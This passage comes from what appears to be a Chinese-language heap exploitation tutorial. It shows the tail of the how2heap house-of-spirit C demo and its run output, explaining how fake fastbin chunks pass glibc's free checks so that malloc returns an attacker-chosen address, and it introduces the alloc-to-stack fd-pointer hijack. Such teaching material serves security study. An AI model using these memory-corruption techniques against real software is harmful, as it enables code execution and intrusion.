 ```c
	a = &fake_chunks[2];

	fprintf(stderr, "Freeing the overwritten pointer.\n");
	free(a);

	fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
	fprintf(stderr, "malloc(0x30): %p\n", malloc(0x30));
}
```

運行後的效果如下

```shell
➜  how2heap git:(master) ./house_of_spirit
This file demonstrates the house of spirit attack.
Calling malloc() once so that it sets up its memory.
We will now overwrite a pointer to point to a fake 'fastbin' region.
This region (memory of length: 80) contains two chunks. The first starts at 0x7ffd9bceaa58 and the second at 0x7ffd9bceaa88.
This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.
... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end.
The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.
Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, 0x7ffd9bceaa58.
... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.
Freeing the overwritten pointer.
Now the next malloc will return the region of our fake chunk at 0x7ffd9bceaa58, which will be 0x7ffd9bceaa60!
malloc(0x30): 0x7ffd9bceaa60
```

### 小總結

可以看出，想要使用該技術分配 chunk 到指定地址，其實並不需要修改指定地址的任何內容，**關鍵是要能夠修改指定地址的前後的內容使其可以繞過對應的檢測**。

## Alloc to Stack

### 介紹

如果你已經理解了前文所講的 Fastbin Double Free 與 house of spirit 技術，那麼理解該技術就已經不成問題了，它們的本質都在於 fastbin 鏈表的特性：當前 chunk 的 fd 指針指向下一個 chunk。

該技術的核心點在於劫持 fastbin 鏈表中 chunk 的 fd 指針，把 fd 指針指向我們想要分配的棧上，從而實現控制棧中的一些關鍵數據，比如返回地址等。
